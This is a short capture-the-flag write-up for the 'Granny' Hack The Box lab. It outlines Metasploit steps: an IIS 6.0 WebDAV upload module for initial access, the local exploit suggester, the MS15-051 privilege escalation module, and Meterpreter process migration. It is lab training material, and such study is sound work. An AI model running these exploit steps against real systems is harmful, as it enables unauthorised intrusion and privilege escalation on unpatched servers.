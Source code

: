 # Granny Write-Up

Easy

Tags:
`CVE-2014-4113`
`CVE-2015-1701`
`CVE-2017-7269`


## Intro

1. Use msf module

2. Process migration in Meterpreter

## Enumeration

### Port scanning

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
```

search iis

use iis_webdav_upload_asp

## Privilege Escalation

backgrounding session `<id>`

run post/multi/recon/local_exploit_suggester

use ms15_051_client_copy_image

interact session `<id>`

show process list

migrate `<pid>`

run ms15_051_client_copy_image

## Reference

[htb-granny Write-Up](https://blog.barradell-johns.com/index.php/2019/07/27/htb-granny/)